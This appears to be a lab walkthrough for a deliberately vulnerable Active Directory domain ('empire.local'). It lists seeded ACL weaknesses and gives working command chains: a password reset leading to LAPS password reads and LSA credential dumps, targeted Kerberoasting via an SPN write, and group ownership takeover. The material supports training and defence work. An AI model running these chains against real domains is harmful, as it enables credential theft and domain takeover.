

# 🧩 11 — HelpDesk → IT_Team → LAPS / group chains

> [!abstract] Summary
> **Start:** membership in `HelpDesk`, `IT_Team`, or control of `svc_bobafett`.
> **Goal:** chain seeded ACL edges into local-admin passwords and group takeover.
> **Why it works:** the lab plants a realistic helpdesk delegation lattice (`vuln_lateral`).



## Seeded edges (`vuln_lateral`)

| ID | Principal | Right | Target |
|---|---|---|---|
| LAT-029 | `HelpDesk` | ForceChangePassword | `IT_Team` members |
| LAT-030 | `HelpDesk` | GenericWrite | `svc_bobafett2` |
| LAT-023 | `IT_Team` | read `ms-Mcs-AdmPwd` | Computers OU (**LAPS**) |
| LAT-031 | `svc_bobafett` | WriteOwner | `finance_sync` |
| LAT-022 | `darth.maul` | Validated-SPN write | `svc_trooper` |
| LAT-025 | (WriteSPN) | add SPN | `luke.skywalker` |

## Chain A — HelpDesk → IT_Team → LAPS → local admin

```bash
# 1. reset an IT_Team member's password
bloodyAD -d empire.local --host 10.10.0.10 -u <helpdesk_user> -p '<pw>' \
  set password <it_team_user> 'NewPass123!'
# 2. as that IT_Team user, read LAPS passwords
nxc ldap 10.10.0.10 -u <it_team_user> -p 'NewPass123!' --module laps
# 3. local admin on the member host → dump creds → climb to DA
nxc smb <member_host> -u Administrator -p '<laps_pw>' --lsa
```

## Chain B — WriteSPN → targeted Kerberoast

```bash
# darth.maul can write an SPN onto svc_trooper / luke.skywalker → roast on demand
bloodyAD -d empire.local --host 10.10.0.10 -u darth.maul -p '<pw>' \
  set object luke.skywalker servicePrincipalName -v 'HTTP/luke.skywalker-web.empire.local:8080'
impacket-GetUserSPNs -request -dc-ip 10.10.0.10 empire.local/darth.maul:'<pw>'
```

## Chain C — svc_bobafett WriteOwner → finance_sync

```bash
bloodyAD -d empire.local --host 10.10.0.10 -u svc_bobafett -p '<pw>' \
  set owner finance_sync svc_bobafett
bloodyAD -d empire.local --host 10.10.0.10 -u svc_bobafett -p '<pw>' \
  add groupMember finance_sync svc_bobafett
```

> [!check] Outcome
> LAPS local-admin → LSASS → DA-equivalent creds; or group takeover for further pivots.
> Top single-shot ACL is still [[04-acl-sheev-palpatine-dcsync]].
